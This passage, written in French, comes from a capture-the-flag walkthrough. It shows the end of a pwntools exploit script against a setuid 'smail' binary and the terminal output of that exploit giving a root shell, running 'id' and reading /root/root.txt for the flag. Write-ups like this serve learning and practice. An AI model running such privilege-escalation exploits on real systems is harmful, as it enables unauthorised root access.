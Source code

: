 ```python 


p.clean()
p.sendline("2")
p.sendline(payload)
p.interactive()
```

On écrit l'exploit.   

```bash
carlJ@incognito:~/mailing$ echo 'never' >  /home/carlJ/.cache/.pwntools-cache-3.6/update 
carlJ@incognito:~/mailing$ python3 exploit.py 
[+] Starting local process './smail': pid 32707
[*] Switching to interactive mode
Write your signature...
Changed
$ id
uid=0(root) gid=1002(carlJ) groups=1002(carlJ)
$ cat /root/root.txt
f21979de76c0302154cc001884143ab2
```

On configure pwntools pour pas qui cherche à faire des mises à jours.   
On lance l'exploit on a un shell root.   
On lit le flag dans root.txt, dans le répertoire /root.   
Le flag est : f21979de76c0302154cc001884143ab2    


